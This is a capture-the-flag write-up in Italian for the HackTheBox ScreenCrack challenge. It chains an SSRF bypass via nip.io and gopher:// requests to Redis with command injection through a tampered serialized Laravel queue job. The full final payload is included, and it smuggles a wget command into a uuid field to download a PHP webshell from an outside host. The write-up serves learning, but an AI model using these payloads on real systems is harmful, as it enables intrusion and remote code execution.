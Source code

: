 # ScreenCrack HTB challenge WRITEUP
[Exploit.py](exploit.py) Made by: [Gianlush](https://github.com/Gianlush/), [heisengit](https://github.com/heisengit)

## step 1: tentativo di SSRF
Non si può accedere banalmente all'indirizzo localhost poichè il backend fa un controllo e filtra l'url che viene inserito nel form. Quindi il primo passo è stato cercare un metodo per bypassare quei filtri. La soluzione trovata è stata utilizzare un dominio particolare (nip.io) che consente di personalizzare la risoluzione dns di qualsiasi url.

```payload = "http://127-0-0-1.nip.io"```

![step1](images/step1.png)

## step 2: ricerca servizi vulnerabili

Runnando il docker della challenge, ed avviando una shell è possibile notare la presenza di un altro servizio sulla porta 6379, cioè REDIS (un DB cache-based). Tuttavia il payload precedente non funzionava per accedere a questo servizio quindi cercando online soluzioni per effettuare ssrf abbiamo notato che è possibile comunicarci usando url scheme differenti (quali dict:// o gopher://).

```payload = dict://127-0-0-1.nip.io/info```

![step2](images/step2.png)

Questo payload consente di eseguire comandi sul client redis, utilizzando i ":" come spazio (scoperto per tentativi).

### step 2.5: redis rabbit hole

Seguendo la documentazione di Redis e smanettando con i suoi comandi abbiamo tentato di eseguire un qualche tipo di code injection, la quale sarebbe stato possibile se non fosse per la presenza di una flag (enable-protected-config) che rende il redis.conf immutabile e che abbiamo cercato di bypassare (inutilmente).

![step3](images/step3.png)

## step 3: follow the input

Dopo aver rinunciato a quella strada abbiamo deciso di seguire meglio il flusso del nostro input, notando che nel file [FileQueue.php](challenge/app/Message/FileQueue.php) è presente una chiamata a system() che potrebbe essere un possibile punto di attacco qualora fossimo in grado di manipolare la variabile $filepath. Questa strada, inzialmente scartata poichè sembrava impossibile manipolare il valore della variabile, è diventanta nuovamente possibile una volta scoperta la console Redis, ed in particolare un key al suo interno che memorizza tutti i file caricati.

![step4](images/step4.png)

Nel frattempo ci siamo spostati dentro al docker per utilizzare redis in maniera più agevole e capirci meglio, ed è qui che abbiamo visualizzato il contenuto delle flag sopracitate, che sarebbe stato altrimenti impossibile tramite web utilizzando il protocollo dict, visto che la key conteneva i ":" che sarebbe invece stati interpretati come spazi:

![step5](images/step5.png)


Manipolando quei dati, e facendoci stampare di volta in volta l'url dato in pasto a curl nel file SiteShotService.php ed il pathfile nel file FileQueue.php abbiamo visto che è possibile modificare l'esecuzione del comando system("rm "filepath).

In particolare, modificando il campo uuid ed inserendo del codice, una volta trascorsi i 600 secondi del [job-runner.sh](config/job-runner.sh) la queue viene svuotata, il file eliminato e quindi il nostro codice eseguito.
### PoC:
```payload = "uuid\\\";s:51:\\\"d9b86d9c-cf9f-40bf-a641-a0b76e432c2a;touch funziona\\\";```
Utilizzando il comando lset di Redis per modificare l'entry come detto si ottiene il risultato desiderato:

![step6](images/step6.png)

## step 4: un passo indietro rispetto a dict://
A questo punto sono sorti i problemi con il il protocollo dict poichè questo richiedeva l'uso dei ":" come space, cosa che andava in contrasto con i ":" usati da redis. Senza trovare un modo di bypassare il problema abbiamo riprovato l'utilizzo di gopher. Questo infatti sembrava funzionare bene con curl da terminale:

![step7](images/step7.png)

Inoltre utilizza il %20 come spazio. L'unico problema è che, poichè la connessione non termina, quando usato tramite la webapp va in timeout. Questo ci ha fatto credere inizialmente che non funzionasse, ma in realtà anche senza ricevere una risposta, i nostri comandi passano e vengono eseguiti.

Dopo vari tentativi abbiamo capito che la preparazione del payload per Gopher richiedeva semplicemente un url encoding su tutto il payload. Per estrarre la flag abbiamo usato una php shell reperibile tramite wget, da qui il seguente payload (per esteso):

```payload = gopher://127-0-0-1.nip.io:6379/_LSET laravel_database_queues:default 0 "{\"uuid\":\"733ba127-c15e-46b7-baef-d511b91af345\",\"displayName\":\"App\\\\Jobs\\\\rmFile\",\"job\":\"Illuminate\\\\Queue\\\\CallQueuedHandler@call\",\"maxTries\":null,\"maxExceptions\":null,\"failOnTimeout\":false,\"backoff\":null,\"timeout\":null,\"retryUntil\":null,\"data\":{\"commandName\":\"App\\\\Jobs\\\\rmFile\",\"command\":\"O:15:\\\"App\\\\Jobs\\\\rmFile\\\":1:{s:9:\\\"fileQueue\\\";O:21:\\\"App\\\\Message\\\\FileQueue\\\":3:{s:8:\\\"filePath\\\";s:45:\\\"\\/src\\/09da39b3-ec27-4a2e-b9bd-1d9e3a6fe220.txt\\\";s:4:\\\"uuid\\\";s:213:\\\"09da39b3-ec27-4a2e-b9bd-1d9e3a6fe220;cd public;wget https:\\/\\/gist.githubusercontent.com\\/joswr1ght\\/22f40787de19d80d110b37fb79ac3985\\/raw\\/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4\\/easy-simple-php-webshell.php;touch asd\\\";s:3:\\\"ext\\\";s:3:\\\"txt\\\";}}\"},\"id\":\"4ARs2xRDfUDqwEf3x5hneSeeRA0zkjaL\",\"attempts\":0}"```

 Una volta URL-ENCODATO, inviato ed attesi in 10min che il processo job-runner.sh svuotasse la queue ed eseguisse il nostro comando, abbiamo ottenuto una shellphp e estratto la flag tramite cat.

 ![step8](images/step8.png)
